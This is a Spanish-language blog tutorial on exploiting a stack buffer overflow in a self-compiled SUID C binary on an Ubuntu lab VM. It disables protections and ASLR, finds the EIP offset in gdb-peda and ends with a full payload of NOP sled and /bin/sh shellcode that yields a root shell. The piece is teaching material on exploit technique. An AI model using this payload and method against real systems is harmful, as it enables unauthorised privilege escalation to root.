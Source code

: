 ```yaml
---
layout: single
title: Stack Buffer Overflow en Linux
excerpt: "En este artículo vemos cómo explotar un stack buffer overflow en un sistema Linux. Nos aprovecharemos de un desbordamiento de memoria en un binario en el que a nivel de código no se ha tenido en cuenta el controlar la cantidad de bytes que se le pueden enviar. Además, al tener el binario permisos SUID nos permitirá realizar una escalada de privilegios y obtener una shell de root."
date: 2021-02-20
classes: wide
header:
  teaser: /assets/images/Stack-Buffer-Overflow-Linux/buffer-overflow.jpg
  teaser_home_page: true
categories:
  - Buffer-Overflow
tags:
  - Buffer Overflow
  - Linux
  - Pentesting
---
```


![](/assets/images/Stack-Buffer-Overflow-Linux/buffer-overflow.jpg)

En este artículo vemos cómo explotar un stack buffer overflow en un sistema Linux. Nos aprovecharemos de un desbordamiento de memoria en un binario en el que a nivel de código no se ha tenido en cuenta el controlar la cantidad de bytes que se le pueden enviar. Además, al tener el binario permisos SUID nos permitirá realizar una escalada de privilegios y obtener una shell de root.

De nuevo agradecimientos a s4vitar por sus tutoriales.

Utilizaremos una máquina virtual con Ubuntu Server 14.04 x86, gdb como debuguer y peda para añadir funcionalidades extra a gdb.

Nos conectamos por ssh a la máquina ubuntu y empezamos.

![](/assets/images/Stack-Buffer-Overflow-Linux/ssh.png)

Primero instalaremos gdb, git y gcc desde la línea de comandos `apt install gdb git gcc`

Después necesitaremos instalar peda como complemento de gdb, para ello vamos a la página del proyecto en github [https://github.com/longld/peda](https://github.com/longld/peda) y ejecutamos estos dos comandos:

`git clone https://github.com/longld/peda.git ~/peda`<br>
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

A continuación crearemos un sencillo código en lenguaje C para después compilarlo y obtener el binario sobre el que trabajaremos.


![](/assets/images/Stack-Buffer-Overflow-Linux/codigo.png)

En este código simplemente se llama a una función que se llama vulnerable, le pasamos lo que pongamos como primer argumento, que se guarda en una variable llamada buff. Después definimos otra variable buffer a la que le asignamos un tamaño de buffer de 64 bytes, y hacemos una copia de buff a buffer, con lo cual, si el tamaño de bytes que enviamos supera esos 64 se producirá el desbordamiento que nos permitirá explotar la vulnerabilidad.

Lo compilamos de la siguiente forma:

`gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 ejercicio.c -o vuln`

Nos creará un binario llamado vuln, al que le asignaremos de usuario propietario root y permisos SUID, lo que hace que se pueda ejecutar temporalmente con los permisos del usuario propietario, en este caso root, lo que nos permitirá cuando explotemos el buffer overflow que nos devuelva una shell de root. Lo ejecutaremos como usuario ximo y nos devolverá una shell de root.

Lo siguiente será ponernos como usuario root y ejecutar los siguientes comandos: `chown root:root vuln` y `chmod u+s vuln`. El primero pondrá como propietario y grupo asignado al usuario root y el segundo le aplicará permiso SUID al binario.

## Empieza la explotación

Si ejecutamos el binario y le pasamos como parámetro cualquier cadena menor a 64 bytes vemos que no pasa nada. Ejemplo: `./vuln holaquetal`
Pero si le pasamos a través de python por ejemplo 100 "A" vemos que corrompe el programa y nos devuelve una violación de segmento.

![](/assets/images/Stack-Buffer-Overflow-Linux/error.png)

Al pasarle más bytes de los que acepta la variable buffer hemos sobreescrito registros de la memoria que ahora apuntan a direcciones de memoria que no tienen sentido y por eso corrompe el programa.

En este punto si ejecutamos gdb vuln entraremos en el debuguer para ver que está ocurriendo con la ejecución del programa. Una vez dentro de gdb si ejecutamos checksec vuln vemos que tiene todas las protecciones deshabilitadas, esto es así porque lo hemos compilado con unos parámetros para que no las tenga y poder entender como funciona el buffer overflow.

![](/assets/images/Stack-Buffer-Overflow-Linux/checksec.png)

En el siguiente paso tendremos que deshabilitar la aleatorización de las direcciones de memoria. Explicado de forma sencilla sería que de forma predeterminada el kernel de linux asigna direcciones de memoria aleatorias que van cambiando con cada ejecución. En este ejemplo para hacer la explotación más fácil y entender como funciona lo vamos a deshabilitar.

Si ejecutamos `ldd vuln` varias veces veremos que la librería libc cada vez apunta a una dirección de memoria diferente. Para deshabilitarlo nos ponemos como usuario root y ejecutamos `echo 0 > /proc/sys/kernel/randomize_va_space`. Por defecto tiene un valor de 2, y ahora nosotros lo hemos puesto a 0.

![](/assets/images/Stack-Buffer-Overflow-Linux/randomize.png)


Bien, ahora ejecutamos el debuguer junto al binario `gdb vuln`. Si ponemos `r holaquetal` estaremos haciendo lo mismo de antes pero desde dentro del debuguer. Probamos con `r $(python -c 'print "A"*100')` y nos fijamos en lo que nos muestra gdb. Podemos ver que el registro EIP que siempre apunta a la próxima dirección de memoria a ejecutar ahora vale 0x41414141, que son nuestras "A" en hexadecimal. Por eso corrompe el programa, porque 0x41414141 no es una dirección de memoria válida.

![](/assets/images/Stack-Buffer-Overflow-Linux/eip.png)

Ahora se trata, como en el artículo anterior en el que explotábamos el stack buffer overflow en una máquina windows, de tomar el control del registro EIP, para que el flujo del programa se desplace hasta la dirección que nosotros queramos, que será donde habremos sobreescrito lo que haya con nuestro shellcode o instrucciones maliciosas, que nos deovlverán una shell , en este caso de root por ser el binario SUID.

Creamos un patrón de 100 carácteres aleatorios, ejecutamos el binario con ese patrón y vemos el valor de EIP. Esto lo hacemos desde gdb con `pattern arg 100` y luego `r` para ejecutarlo.

Vemos que ahora EIP vale 0x41413341. Pues ahora con `patern search` nos muestra el offset del EIP, que es la cantidad exacta de bytes que tenemos que pasarle al binario justo antes de que se sobreescriba el EIP. De esta forma tendremos el control del registro EIP y podremos sobreescribirlo con lo que queramos. En este caso el offset es 68.

![](/assets/images/Stack-Buffer-Overflow-Linux/registers.png)

Seguidamente, para comprobar que tenemos el control del registro EIP le pasaremos al binario 68 "A" + 4 "B", y si vemos que EIP apunta a la dirección 0x42424242 que son nuestras "B" en hexadecimal, tendremos el control pudiendo hacer que EIP apunte donde nosotros queramos. Lo probamos y vemos que efectívamente EIP apunta a 0x42424242.

![](/assets/images/Stack-Buffer-Overflow-Linux/eip42.png)

Bien pues ahora le pasaremos 68 "A" + 4 "B" + 200 "C" y vemos como las 200 "C" se colocan en la pila o stack, sobreescribiendo un montón de direcciones de memoria. Esto lo podemos ver ejecutando `x/100wx $esp`. Todas las direcciones de memoria en las que pone 0x43434343 son nuestras "C".

![](/assets/images/Stack-Buffer-Overflow-Linux/esp.png)

A continuación lo que hacemos es pasarle al binario NOPs (\x90), que son instrucciones que no ejecutan nada, simplemente hacen que el flujo de ejecución se desplace a través de ellos sin hacer nada. Lo hacemos de esta forma: `r $(python -c 'print "A"*68 + "B"*4 + "\x90"*200')`. Si volvemos a ejecutar `x/100wx $esp` vemos nuestros NOPs.

![](/assets/images/Stack-Buffer-Overflow-Linux/nops.png)

Ahora podemos hacer que el registro EIP apunte a una dirección intermedia dentro de los NOPs para que el flujo de ejecución se desplace hasta donde terminan estos NOPs, que será donde sobreescribiremos lo que haya con nuestro shellcode que nos ejecutará un /bin/sh y nos devolverá una shell.

Hacemos `r $(python -c 'print "A"*68 + "\x34\xf6\xff\xbf" + "\x90"*200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')` y vemos que efectívamente nos devuelve una shell. Si ejecutamos `whoami` nos devuelve ximo, pero esto es porque estamos dentro del gdb, ahora lo haremos desde fuera del gdb con python y veremos como nos devuelve una shell de root.

![](/assets/images/Stack-Buffer-Overflow-Linux/shell.png)





